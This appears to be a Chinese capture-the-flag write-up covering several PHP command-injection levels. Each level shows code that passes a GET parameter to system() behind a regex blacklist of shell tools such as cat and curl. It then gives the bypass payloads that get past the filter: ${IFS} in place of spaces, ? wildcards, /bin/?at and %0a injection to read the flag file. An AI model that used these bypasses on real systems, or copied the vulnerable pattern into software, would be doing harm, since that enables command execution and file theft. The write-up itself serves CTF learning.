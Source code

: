 ```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

```
nl<>fla\g.php%0a
```

## 52

```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

又ban掉了<>

换一个空格绕过

```
nl${IFS}fl?g.php%0a
```

## 54 /bin/?at 绕过

```PHP
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

```
?c=paste${IFS}fla?.php%0a

?c=/bin/?at${IFS}f?ag.php%0a

?c=/bin/?at${IFS}f??????
```
